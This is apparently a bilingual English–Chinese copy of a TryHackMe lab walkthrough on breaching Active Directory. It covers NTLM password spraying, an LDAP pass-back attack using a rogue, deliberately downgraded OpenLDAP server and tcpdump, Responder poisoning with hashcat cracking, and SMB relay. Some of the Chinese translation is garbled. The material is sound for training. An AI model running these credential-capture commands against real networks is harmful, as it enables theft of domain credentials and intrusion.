
```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

We provide the following values for each of the parameters:
我们为每个参数提供以下值：

- **<userfile>** - Textfile containing our usernames - *"usernames.txt"*
  **<userfile>** - 包含我们用户名的文本文件 - *"usernames.txt"*
- **<fqdn>** - Fully qualified domain name associated with the organisation that we are attacking - *"za.tryhackme.com"*
  **<fqdn>** - 与我们正在攻击的组织关联的完全限定域名 - *"za.tryhackme.com"*
- **<password>** - The password we want to use for our spraying attack - *"Changeme123"*
  **<password>** - 我们想用于喷洒攻击的密码 - *"Changeme123"*
- **<attackurl>** - The URL of the application that supports Windows Authentication - *"http://ntlmauth.za.tryhackme.com"*
  **<attackurl>** - 支持 Windows 身份验证的应用程序的 URL - *"http://ntlmauth.za.tryhackme.com"*

Using these parameters, we should get a few valid credentials pairs from our password spraying attack.
使用这些参数，我们应该能够通过密码喷洒攻击获得一些有效的凭据对。

NTLM Password Spraying Attack NTLM 密码喷洒攻击

```shell-session
[thm@thm]$ python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: henry.taylor
[...]
[+] Valid credential pair found! Username: [...] Password: Changeme123
[-] Failed login with Username: louise.talbot
[...]
[*] Password spray attack completed, [X] valid credential pairs found
```

Using a combination of OSINT and NetNTLM password spraying, we now have our first valid credentials pairs that could be used to enumerate AD further!
结合 OSINT 和 NetNTLM 密码喷洒技术，我们现在获得了第一批可用于进一步枚举 AD 的有效凭据对！


脚本依赖的 `requests` 库未安装，Python 找不到该模块导致报错

通过 `pip3 install  安装缺失的库


再次尝试


### task 4

LDAP

Another method of AD authentication that applications can use is Lightweight Directory Access Protocol (LDAP) authentication. LDAP authentication is similar to NTLM authentication. However, with LDAP authentication, the application directly verifies the user's credentials. The application has a pair of AD credentials that it can use first to query LDAP and then verify the AD user's credentials.
应用程序可以使用的另一种 AD 身份验证方法是轻量级目录访问协议 ( LDAP ) 身份验证。LDAP身份验证与 NTLM 身份验证类似。但是，使用 LDAP 身份验证时，应用程序直接验证用户的凭据。应用程序拥有一对 AD 凭据，可以首先使用该凭据查询 LDAP ，然后验证 AD 用户的凭据。

LDAP authentication is a popular mechanism with third-party (non-Microsoft) applications that integrate with AD. These include applications and systems such as:
LDAP 身份验证是与 AD 集成的第三方（非 Microsoft）应用程序常用的机制。这些应用程序和系统包括：

- Gitlab
- Jenkins 詹金斯
- Custom-developed web applications
  定制开发的 Web 应用程序
- Printers 打印机
- VPNs VPN

If any of these applications or services are exposed on the internet, the same type of attacks as those leveraged against NTLM authenticated systems can be used. However, since a service using LDAP authentication requires a set of AD credentials, it opens up additional attack avenues. In essence, we can attempt to recover the AD credentials used by the service to gain authenticated access to AD. The process of authentication through LDAP is shown below:
如果这些应用程序或服务暴露在互联网上，则可能遭受与针对 NTLM 认证系统的攻击相同的攻击。然而，由于使用 LDAP 认证的服务需要一组 AD 凭据，因此也存在其他攻击途径。本质上，我们可以尝试恢复服务用于获得 AD 认证访问权限的 AD 凭据。LDAP 认证过程如下所示：


If you could gain a foothold on the correct host, such as a Gitlab server, it might be as simple as reading the configuration files to recover these AD credentials. These credentials are often stored in plain text in configuration files since the security model relies on keeping the location and storage configuration file secure rather than its contents. Configuration files are covered in more depth in Task 7.
如果能够成功控制正确的宿主机，例如 GitLab 服务器，那么只需读取配置文件即可恢复这些 AD 凭据。由于安全模型依赖于保护配置文件的位置和存储安全，而非其内容本身，因此这些凭据通常以明文形式存储在配置文件中。有关配置文件的更详细内容，请参阅任务 7。

LDAP Pass-back Attacks
LDAP 回传攻击

However, one other very interesting attack can be performed against LDAP authentication mechanisms, called an LDAP Pass-back attack. This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device in a boardroom.
然而，还有一种非常有趣的攻击方式可以针对 LDAP 身份验证机制，称为 LDAP 回传攻击。这是一种常见的网络设备攻击，例如打印机，攻击者在获得内部网络的初始访问权限后即可发起此类攻击，例如在会议室插入一台恶意设备。

LDAP Pass-back attacks can be performed when we gain access to a device's configuration where the LDAP parameters are specified. This can be, for example, the web interface of a network printer. Usually, the credentials for these interfaces are kept to the default ones, such as `admin:admin` or `admin:password`. Here, we won't be able to directly extract the LDAP credentials since the password is usually hidden. However, we can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.
当我们能够访问指定了 LDAP 参数的设备配置时，就可以实施 LDAP 回传攻击。例如，网络打印机的 Web 界面。通常，这些界面的凭据是默认的，例如 `admin:admin` 或 `admin:password` 。在这种情况下，我们无法直接提取 LDAP 凭据，因为密码通常是隐藏的。但是，我们可以修改 LDAP 配置，例如 LDAP 服务器的 IP 地址或主机名。在 LDAP 回传攻击中，我们可以将此 IP 地址修改为我们自己的 IP 地址，然后测试 LDAP 配置，这将迫使设备尝试向我们的恶意设备进行 LDAP 身份验证。我们可以拦截此身份验证尝试以恢复 LDAP 凭据。

Performing an LDAP Pass-back
执行 LDAP 回传

There is a network printer in this network where the administration website does not even require credentials. Navigate to http://printer.za.tryhackme.com/settings.aspx to find the settings page of the printer:
此网络中有一台网络打印机，其管理网站甚至不需要凭据。请访问 http://printer.za.tryhackme.com/settings.aspx 找到打印机的设置页面：




Using browser inspection, we can also verify that the printer website was at least secure enough to not just send the LDAP password back to the browser:
通过浏览器检查，我们还可以验证打印机网站至少足够安全，不会将 LDAP 密码直接发送回浏览器：


So we have the username, but not the password. However, when we press test settings, we can see that an authentication request is made to the domain controller to test the LDAP credentials. Let's try to exploit this to get the printer to connect to us instead, which would disclose the credentials. To do this, let's use a simple Netcat listener to test if we can get the printer to connect to us. Since the default port of LDAP is 389, we can use the following command:
我们已经有了用户名，但没有密码。不过，当我们按下“测试设置”按钮时，可以看到系统向域控制器发出了一个身份验证请求，以测试 LDAP 凭据。我们不妨利用这一点，让打印机连接到我们这里，这样就能获取到凭据。为此，我们使用一个简单的 Netcat 监听器来测试是否能够让打印机连接到我们这里。由于 LDAP 的默认端口是 389，我们可以使用以下命令：

```
nc -lvp 389
```

Note that if you use the AttackBox, the you should first disable slapd using `service slapd stop`. Then, we can alter the Server input box on the web application to point to our IP and press Test Settings.
请注意，如果您使用 AttackBox，则应首先使用 `service slapd stop` 禁用 slapd 服务。然后，我们可以修改 Web 应用程序上的服务器输入框，使其指向我们的 IP 地址，然后点击“测试设置”。

**Your IP will be your VPN IP and will either be a 10.50.x.x IP or 10.51.x.x IP. You can use** `ip a` **to list all interfaces. Please make sure to use this as your IP, otherwise you will not receive a connection back. Please also make note of the interface for this IP, since you will need it later in the task.**
**您的 IP 地址将是您的 VPN IP 地址，其范围为 10.50.xx 或 10.51.xx。您可以使用** `ip a` **列出所有接口。请务必使用此 IP 地址，否则您将无法建立连接。另请记下此 IP 地址对应的接口，因为您稍后在任务中会用到它。**

You should see that we get a connection back, but there is a slight problem:
你应该能看到连接恢复了，但是存在一个小问题：

Netcat LDAP Listener Netcat LDAP 监听器

```shell-session
[thm@thm]$ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
      
```

You may require more than one try to receive a connection back but it should respond within 5 seconds. The `supportedCapabilities `response tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext.
您可能需要多次尝试才能建立连接，但通常会在 5 秒内收到响应。supportedCapabilities `supportedCapabilities` 响应表明我们遇到了问题。本质上，在打印机发送凭据之前，它会尝试协商 LDAP 身份验证方法的详细信息。它会利用此协商结果选择打印机和 LDAP 服务器都支持的最安全的身份验证方法。如果身份验证方法过于安全，凭据将不会以明文形式传输。对于某些身份验证方法，凭据根本不会通过网络传输！因此，我们不能直接使用普通的 Netcat 来获取凭据。我们需要创建一个恶意 LDAP 服务器，并将其配置为不安全的协议，以确保凭据以明文形式发送。

Hosting a Rogue LDAP Server
托管恶意 LDAP 服务器

There are several ways to host a rogue LDAP server, but we will use OpenLDAP for this example. If you are using the AttackBox, OpenLDAP has already been installed for you. However, if you are using your own attack machine, you will need to install OpenLDAP using the following command:
搭建恶意 LDAP 服务器的方法有很多种，但本示例将使用 OpenLDAP。如果您使用的是 AttackBox，则 OpenLDAP 已为您安装好。但是，如果您使用的是自己的攻击机，则需要使用以下命令安装 OpenLDAP：

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

You will however have to configure your own rogue LDAP server on the AttackBox as well. We will start by reconfiguring the LDAP server using the following command:
不过，您还需要在 AttackBox 上配置自己的恶意 LDAP 服务器。我们将首先使用以下命令重新配置 LDAP 服务器：

```
sudo dpkg-reconfigure -p low slapd
```

Make sure to press <No> when requested if you want to skip server configuration:
务必按下<No>如果系统提示您想跳过服务器配置：


For the DNS domain name, you want to provide our target domain, which is `za.tryhackme.com`:
对于 DNS 域名，您需要提供我们的目标域名，即 `za.tryhackme.com` ：


Use this same name for the Organisation name as well:
组织名称也请使用相同的名称：


Provide any Administrator password:
请提供管理员密码：


Select MDB as the LDAP database to use:
选择 MDB 作为要使用的 LDAP 数据库：


For the last two options, ensure the database is not removed when purged:
对于最后两个选项，请确保在清除数据时不要删除数据库：


Move old database files before a new one is created:
创建新数据库之前，请先迁移旧数据库文件：


Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:
在使用恶意 LDAP 服务器之前，我们需要通过降低其支持的身份验证机制来使其存在漏洞。我们希望确保 LDAP 服务器仅支持 PLAIN 和 LOGIN 身份验证方法。为此，我们需要创建一个新的 ldif 文件，并添加以下内容：

olcSaslSecProps.ldif

```shell-session
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:
该文件具有以下属性：

- **olcSaslSecProps:** Specifies the SASL security properties
  **olcSaslSecProps：** 指定 SASL 安全属性
- **noanonymous:** Disables mechanisms that support anonymous login
  **noanonymous：** 禁用支持匿名登录的机制
- **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.
  **minssf：** 指定可接受的最低安全强度，0 表示不提供保护。

Now we can use the ldif file to patch our LDAP server using the following:
现在我们可以使用 ldif 文件，通过以下方式修补我们的 LDAP 服务器：

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

We can verify that our rogue LDAP server's configuration has been applied using the following command (**Note**: If you are using Kali, you may not receive any output, however the configuration should have worked and you can continue with the next steps):
我们可以使用以下命令验证恶意 LDAP 服务器的配置是否已生效（ **注意** ：如果您使用的是 Kali 系统，可能不会收到任何输出，但配置应该已经生效，您可以继续执行后续步骤）：

LDAP search to verify supported authentication mechanisms LDAP 搜索以验证支持的身份验证机制

```shell-session
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

Capturing  捕捉LDAP Credentials 证书

Our rogue LDAP server has now been configured. When we click the "Test Settings" at http://printer.za.tryhackme.com/settings.aspx, the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:
我们的恶意 LDAP 服务器现已配置完成。当您点击 http://printer.za.tryhackme.com/settings.aspx 上的“测试设置”时，身份验证将以明文形式进行。如果您正确配置了恶意 LDAP 服务器，并且它正在降低通信级别，您将收到以下错误：“此专有名称包含无效语法”。如果您收到此错误，可以使用以下命令通过 tcpdump 捕获凭据：

TCPDump

```shell-session
[thm@thm]$ sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10:41:52.979933 IP 10.10.10.201.49834 > 10.10.10.57.ldap: Flags [P.], seq 4245946075:4245946151, ack 1113052386, win 8212, length 76
	0x0000:  4500 0074 b08c 4000 8006 20e2 0a0a 0ac9  E..t..@.........
	0x0010:  0a0a 0a39 c2aa 0185 fd13 fedb 4257 d4e2  ...9........BW..
	0x0020:  5018 2014 1382 0000 3084 0000 0046 0201  P.......0....F..
	0x0030:  0263 8400 0000 3d04 000a 0100 0a01 0002  .c....=.........
	0x0040:  0100 0201 7801 0100 870b 6f62 6a65 6374  ....x.....object
	0x0050:  636c 6173 7330 8400 0000 1904 1773 7570  class0.......sup
	0x0060:  706f 7274 6564 5341 534c 4d65 6368 616e  portedSASLMechan
	0x0070:  6973 6d73                                isms
10:41:52.979938 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [.], ack 4245946151, win 502, length 0
	0x0000:  4500 0028 247d 4000 4006 ed3d 0a0a 0a39  E..($}@.@..=...9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5010 01f6 2930 0000                      P...)0..
10:41:52.980162 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [P.], seq 1113052386:1113052440, ack 4245946151, win 502, length 54
	0x0000:  4500 005e 247e 4000 4006 ed06 0a0a 0a39  E..^$~@.@......9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5018 01f6 2966 0000 3034 0201 0264 2f04  P...)f..04...d/.
	0x0030:  0030 2b30 2904 1773 7570 706f 7274 6564  .0+0)..supported
	0x0040:  5341 534c 4d65 6368 616e 6973 6d73 310e  SASLMechanisms1.
	0x0050:  0405 504c 4149 4e04 054c 4f47 494e       ..PLAIN..LOGIN
[....]
10:41:52.987145 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [.], ack 3088612909, win 8212, length 0
	0x0000:  4500 0028 b092 4000 8006 2128 0a0a 0ac9  E..(..@...!(....
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5010 2014 0ae4 0000 0000 0000 0000       P.............
10:41:52.989165 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [P.], seq 2332415562:2332415627, ack 3088612909, win 8212, length 65
	0x0000:  4500 0069 b093 4000 8006 20e6 0a0a 0ac9  E..i..@.........
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5018 2014 3afe 0000 3084 0000 003b 0201  P...:...0....;..
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```

Also, note that `password11` is an example. The password for your service will be different. You may have to press the "Test Settings" button a couple of times before the TCPdump will return data since we are performing the attack over a VPN connection.
另外，请注意 `password11` 只是一个示例。您服务的密码会有所不同。由于我们是通过 VPN 连接执行攻击，您可能需要多次点击“测试设置”按钮，TCPdump 才会返回数据。

Now we have another set of valid AD credentials! By using an LDAP pass-back attack and downgrading the supported authentication mechanism, we could intercept the credentials in cleartext.
现在我们又获得了一组有效的 AD 凭据！通过使用 LDAP 回传攻击并降低支持的身份验证机制，我们可以截获明文凭据。





### task 5

Continuing with attacks that can be staged from our rogue device, we will now look at attacks against broader network authentication protocols. In Windows networks, there are a significant amount of services talking to each other, allowing users to make use of the services provided by the network.
接下来，我们将继续探讨可从恶意设备发起的攻击，重点关注针对更广泛的网络身份验证协议的攻击。在 Windows 网络中，大量服务相互通信，使用户能够利用网络提供的服务。

These services have to use built-in authentication methods to verify the identity of incoming connections. In Task 2, we explored NTLM Authentication used on a web application. In this task, we will dive a bit deeper to look at how this authentication looks from the network's perspective. However, for this task, we will focus on NetNTLM authentication used by SMB.
这些服务必须使用内置的身份验证方法来验证传入连接的身份。在任务 2 中，我们探讨了 Web 应用程序中使用的 NTLM 身份验证。在本任务中，我们将更深入地了解网络视角下的身份验证机制。不过，本任务将重点关注 SMB 使用的 NetNTLM 身份验证。

Server Message Block 服务器消息块

The Server Message Block (SMB) protocol allows clients (like workstations) to communicate with a server (like a file share). In networks that use Microsoft AD, SMB governs everything from inter-network file-sharing to remote administration. Even the "out of paper" alert your computer receives when you try to print a document is the work of the SMB protocol.
服务器消息块 ( SMB ) 协议允许客户端（例如工作站）与服务器（例如文件共享）通信。在使用 Microsoft AD 的网络中， SMB 管理着从网络间文件共享到远程管理的一切。甚至当您尝试打印文档时，计算机收到的“缺纸”警报也是 SMB 协议的功劳。

However, the security of earlier versions of the SMB protocol was deemed insufficient. Several vulnerabilities and exploits were discovered that could be leveraged to recover credentials or even gain code execution on devices. Although some of these vulnerabilities were resolved in newer versions of the protocol, often organisations do not enforce the use of more recent versions since legacy systems do not support them. We will be looking at two different exploits for NetNTLM authentication with SMB:
然而，早期版本的 SMB 协议安全性被认为不足。人们发现了一些漏洞和攻击手段，攻击者可以利用这些漏洞和手段恢复凭据，甚至在设备上执行代码。尽管其中一些漏洞在新版本的协议中得到了修复，但由于旧系统不支持，许多组织并未强制使用最新版本。我们将探讨两种针对 NetNTLM 身份验证的 SMB 攻击手段：

- Since the  自NTLM Challenges can be intercepted, we can use offline cracking techniques to recover the password associated with the
  挑战可以被拦截，我们可以使用离线破解技术来恢复与之关联的密码。NTLM Challenge. However, this cracking process is significantly slower than cracking
  挑战。然而，这种裂解过程比裂解过程要慢得多。NTLM hashes directly. 直接哈希。
- We can use our rogue device to stage a man in the middle attack, relaying the
  我们可以利用我们这个失控的设备来实施中间人攻击，传递……SMB 中小企业 authentication between the client and server, which will provide us with an active authenticated session and access to the target server.
  客户端与服务器之间的身份验证，这将为我们提供有效的身份验证会话和对目标服务器的访问权限。

LLMNR, NBT-NS, and WPAD 、NBT-NS 和 WPAD

In this task, we will take a bit of a look at the authentication that occurs during the use of SMB. We will use Responder to attempt to intercept the NetNTLM challenge to crack it. There are usually a lot of these challenges flying around on the network. Some security solutions even perform a sweep of entire IP ranges to recover information from hosts. Sometimes due to stale DNS records, these authentication challenges can end up hitting your rogue device instead of the intended host.
在本任务中，我们将深入了解 SMB 协议使用过程中的身份验证机制。我们将使用 Responder 来尝试拦截 NetNTLM 质询并对其进行破解。网络中通常会有大量的此类质询。一些安全解决方案甚至会对整个 IP 地址范围进行扫描，以从主机中恢复信息。有时，由于 DNS 记录过期，这些身份验证质询可能会发送到您的恶意设备，而不是预期的主机。

Responder allows us to perform Man-in-the-Middle attacks by poisoning the responses during NetNTLM authentication, tricking the client into talking to you instead of the actual server they wanted to connect to. On a real LAN, Responder will attempt to poison any Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Service (NBT-NS), and Web Proxy Auto-Discovery (WPAD) requests that are detected. On large Windows networks, these protocols allow hosts to perform their own local DNS resolution for all hosts on the same local network. Rather than overburdening network resources such as the DNS servers, hosts can first attempt to determine if the host they are looking for is on the same local network by sending out LLMNR requests and seeing if any hosts respond. The NBT-NS is the precursor protocol to LLMNR, and WPAD requests are made to try and find a proxy for future HTTP(s) connections.
Responder 允许我们通过在 NetNTLM 身份验证期间污染响应来执行中间人攻击，诱使客户端与您通信，而不是与其真正想要连接的服务器通信。在真实的局域网中，Responder 会尝试污染检测到的任何链路本地组播名称解析 ( LLMNR )、 NetBIOS 名称服务 (NBT-NS) 和 Web代理自动发现 (WPAD) 请求。在大型 Windows 网络中，这些协议允许主机为同一局域网上的所有主机执行本地 DNS 解析，从而避免对 DNS 服务器等网络资源造成过重负担。 服务器和主机可以首先尝试确定它们是否是主机。 通过发送 LLMNR 请求并查看是否有主机响应，来查找位于同一本地网络上的主机。NBT-NS 是 LLMNR 的前身协议，而 WPAD 请求则用于尝试为未来的 HTTP (S) 连接寻找代理。


Since these protocols rely on requests broadcasted on the local network, our rogue device would also receive these requests. Usually, these requests would simply be dropped since they were not meant for our host. However, Responder will actively listen to the requests and send poisoned responses telling the requesting host that our IP is associated with the requested hostname. By poisoning these requests, Responder attempts to force the client to connect to our AttackBox. In the same line, it starts to host several servers such as SMB, HTTP, SQL, and others to capture these requests and force authentication.
由于这些协议依赖于在本地网络上广播的请求，我们的恶意设备也会收到这些请求。通常情况下，这些请求会被直接丢弃，因为它们并非发往我们的主机。然而，Responder 会主动监听这些请求，并发送恶意响应，告知请求主机我们的 IP 地址与所请求的主机名关联。通过恶意请求，Responder 试图强制客户端连接到我们的攻击主机。同时，它还会运行多个服务器，例如 SMB 、 HTTP 和 SQL 服务器。 其他程序可以捕获这些请求并强制进行身份验证。


Intercepting NetNTLM Challenge
拦截 NetNTLM 挑战

One thing to note is that Responder essentially tries to win the race condition by poisoning the connections to ensure that you intercept the connection. This means that Responder is usually limited to poisoning authentication challenges on the local network. Since we are connected via a VPN to the network, we will only be able to poison authentication challenges that occur on this VPN network. For this reason, we have simulated an authentication request that can be poisoned that runs every 30 minutes. This means that you may have to wait a bit before you can intercept the NetNTLM challenge and response.
需要注意的是，Responder 本质上是通过污染连接来赢得竞争条件，从而确保您能够拦截连接。这意味着 Responder 通常只能污染本​​地网络上的身份验证质询。由于我们是通过 VPN 连接到网络的，因此我们只能污染此 VPN 网络上发生的身份验证质询。为此，我们模拟了一个每 30 分钟运行一次的可污染的身份验证请求。这意味着您可能需要等待一段时间才能拦截 NetNTLM 质询和响应。

Although Responder would be able to intercept and poison more authentication requests when executed from our rogue device connected to the LAN of an organisation, it is crucial to understand that this behaviour can be disruptive and thus detected. By poisoning authentication requests, normal network authentication attempts would fail, meaning users and services would not connect to the hosts and shares they intend to. Do keep this in mind when using Responder on a security assessment.
虽然 Responder 可以通过连接到组织局域网的恶意设备拦截并篡改更多身份验证请求，但必须注意，这种行为可能会造成干扰，因此很容易被检测到。通过篡改身份验证请求，正常的网络身份验证尝试将会失败，这意味着用户和服务将无法连接到他们想要访问的主机和共享资源。在进行安全评估时，请务必牢记这一点。

Responder has already been installed on the AttackBox. However, if you are not using the AttackBox, you can download and install it from this repo: [https://github.com/lgandx/Responder(opens in new tab)](https://github.com/lgandx/Responder). We will set Responder to run on the interface connected to the VPN:
Responder 已安装在 AttackBox 上。但是，如果您未使用 AttackBox，可以从此仓库下载并安装：https://github.com/lgandx/Responder。我们将把 Responder 设置为在连接到 VPN 的接口上运行：

```
sudo responder -I breachad
```

If you are using the AttackBox not all of the Responder services will be able to start since other services are already using those ports. However, this will not impact this task. Responder will now listen for any LLMNR, NBT-NS, or WPAD requests that are coming in. We would leave Responder to run for a bit on a real LAN. However, in our case, we have to simulate this poisoning by having one of the servers attempt to authenticate to machines on the VPN. Leave Responder running for a bit (average 10 minutes, get some fresh air!), and you should receive an SMBv2 connection which Responder can use to entice and extract an NTLMv2-SSP response. It will look something like this:
如果您使用的是 AttackBox，由于其他服务已占用端口，并非所有 Responder 服务都能启动。但这不会影响此任务。Responder 现在将监听所有传入的 LLMNR、NBT-NS 或 WPAD 请求。在真实的局域网中，我们会让 Responder 运行一段时间。但是，在我们的示例中，我们需要模拟这种恶意攻击，方法是让其中一台服务器尝试向 VPN 上的机器进行身份验证。让 Responder 运行一段时间（平均 10 分钟，出去透透气！），您应该会收到一个 SMBv2 连接，Responder 可以使用该连接来诱骗并提取 NTLMv2-SSP 响应。响应内容大致如下：

NTLM Password Spraying Attack NTLM 密码喷洒攻击

```shell-session
[+] Listening for events...
[SMBv2] NTLMv2-SSP Client   : <Client IP>
[SMBv2] NTLMv2-SSP Username : ZA\<Service Account Username>
[SMBv2] NTLMv2-SSP Hash     : <Service Account Username>::ZA:<NTLMv2-SSP Hash>
```



If we were using our rogue device, we would probably run Responder for quite some time, capturing several responses. Once we have a couple, we can start to perform some offline cracking of the responses in the hopes of recovering their associated NTLM passwords. If the accounts have weak passwords configured, we have a good chance of successfully cracking them. Copy the NTLMv2-SSP Hash to a textfile. We will then use the password list provided in the downloadable files for this task and Hashcat in an attempt to crack the hash using the following command:
如果我们使用恶意设备，可能会运行 Responder 一段时间，捕获多个响应。一旦获得几个响应，我们就可以开始离线破解这些响应，希望能恢复其关联的 NTLM 密码。如果账户配置了弱密码，我们破解成功的几率就很大。将 NTLMv2-SSP 哈希值复制到一个文本文件中。然后，我们将使用下载文件中提供的密码列表和 Hashcat，尝试使用以下命令破解哈希值：

```
hashcat -m 5600 <hash file> <password file> --force
```



The password file has been provided for you on the AttackBox in the `/root/Rooms/BreachingAD/task5/` directory or as a downloadable task file. We use hashtype 5600, which corresponds with NTLMv2-SSP for hashcat. If you use your own machine, you will have to install [Hashcat(opens in new tab)](https://hashcat.net/hashcat/) first.
密码文件已放置在 AttackBox 的 `/root/Rooms/BreachingAD/task5/` 目录中，或者您可以下载任务文件获取。我们使用哈希类型 5600，它对应于 hashcat 的 NTLMv2-SSP 协议。如果您使用自己的机器，则需要先安装 Hashcat。

Any hashes that we can crack will now provide us with AD credentials for our breach!
现在，我们只要破解了任何哈希值，就能获得用于此次攻击的 AD 凭据！

Relaying the Challenge 传递挑战

In some instances, however, we can take this a step further by trying to relay the challenge instead of just capturing it directly. This is a little bit more difficult to do without prior knowledge of the accounts since this attack depends on the permissions of the associated account. We need a couple of things to play in our favour:
然而，在某些情况下，我们可以更进一步，尝试传递挑战信息，而不仅仅是直接捕获它。由于这种攻击依赖于关联账户的权限，因此在事先不了解账户信息的情况下，这样做会稍微困难一些。我们需要一些有利条件：

- SMB 中小企业 Signing should either be disabled or enabled but not enforced. When we perform a relay, we make minor changes to the request to pass it along. If
  签名功能应该禁用或启用但不强制执行。执行转发时，我们会对请求进行少量修改以将其传递。SMB 中小企业 signing is enabled, we won't be able to forge the message signature, meaning the server would reject it.
  签名功能已启用，我们将无法伪造消息签名，这意味着服务器会拒绝该消息。
- The associated account needs the relevant permissions on the server to access the requested resources. Ideally, we are looking to relay the challenge and response of an account with administrative privileges over the server, as this would allow us to gain a foothold on the host.
  关联账户需要拥有服务器上的相关权限才能访问请求的资源。理想情况下，我们希望能够获取具有服务器管理权限的账户的质询和响应，因为这将使我们能够控制主机。
- Since we technically don't yet have an
  由于我们严格来说还没有一个AD 广告 foothold, some guesswork is involved into what accounts will have permissions on which hosts. If we had already breached
  站稳脚跟后，需要对哪些账户拥有哪些主机的权限进行一些猜测。如果我们已经突破了……AD 广告, we could perform some initial enumeration first, which is usually the case.
  我们可以先进行一些初始枚举，这通常是常态。

This is why blind relays are not usually popular. Ideally, you would first breach AD using another method and then perform enumeration to determine the privileges associated with the account you have compromised. From here, you can usually perform lateral movement for privilege escalation across the domain. However, it is still good to fundamentally under how a relay attack works, as shown in the diagram below:
这就是为什么盲中继攻击通常不受欢迎的原因。理想情况下，您应该首先使用其他方法攻破 AD ，然后枚举已攻破帐户的权限。之后，您通常可以进行横向移动，从而在整个域内提升权限。然而，了解中继攻击的基本原理仍然很有帮助，如下图所示：


If you want to try this type of attack in action, head over to the [Holo Network](https://tryhackme.com/jr/hololive). We will also come back to this one in future AD Rooms.
如果你想亲身尝试这种攻击方式，请前往 [Holo Network](https://tryhackme.com/jr/hololive) 。我们将在未来的 AD Rooms 中再次讨论这种攻击方式。



### task 6

Large organisations need tools to deploy and manage the infrastructure of the estate. In massive organisations, you can't have your IT personnel using DVDs or even USB Flash drives running around installing software on every single machine. Luckily, Microsoft already provides the tools required to manage the estate. However, we can exploit misconfigurations in these tools to also breach AD.
大型组织需要工具来部署和管理其基础设施。在规模庞大的组织中，IT 人员不可能使用 DVD 甚至 U 盘在每台机器上安装软件。幸运的是，微软已经提供了管理这些基础设施所需的工具。然而，我们也可以利用这些工具中的配置错误来入侵 AD 。

MDT and SCCM MDT 和 SCCM

Microsoft Deployment Toolkit (MDT) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS). Large organisations use services such as MDT to help deploy new images in their estate more efficiently since the base images can be maintained and updated in a central location.
Microsoft Deployment Toolkit (MDT) 是微软提供的一项服务，可帮助自动化部署 Microsoft 操作系统 ( OS )。大型组织使用 MDT 等服务来更高效地在其环境中部署新映像，因为基础映像可以在中心位置进行维护和更新。


Usually, MDT is integrated with Microsoft's System Center Configuration Manager (SCCM), which manages all updates for all Microsoft applications, services, and operating systems. MDT is used for new deployments. Essentially it allows the IT team to preconfigure and manage boot images. Hence, if they need to configure a new machine, they just need to plug in a network cable, and everything happens automatically. They can make various changes to the boot image, such as already installing default software like Office365 and the organisation's anti-virus of choice. It can also ensure that the new build is updated the first time the installation runs.
通常，MDT 与 Microsoft 的系统中心配置管理器 (SCCM) 集成，后者负责管理所有 Microsoft 应用程序、服务和操作系统的更新。MDT 用于新部署。它本质上允许 IT 团队预配置和管理启动映像。因此，如果需要配置新计算机，他们只需插入网线，一切即可自动完成。他们可以对启动映像进行各种更改，例如预先安装 Office 365 等默认软件以及组织选择的防病毒软件。它还可以确保新版本在首次安装运行时自动更新。

SCCM can be seen as almost an expansion and the big brother to MDT. What happens to the software after it is installed? Well, SCCM does this type of patch management. It allows the IT team to review available updates to all software installed across the estate. The team can also test these patches in a sandbox environment to ensure they are stable before centrally deploying them to all domain-joined machines. It makes the life of the IT team significantly easier.
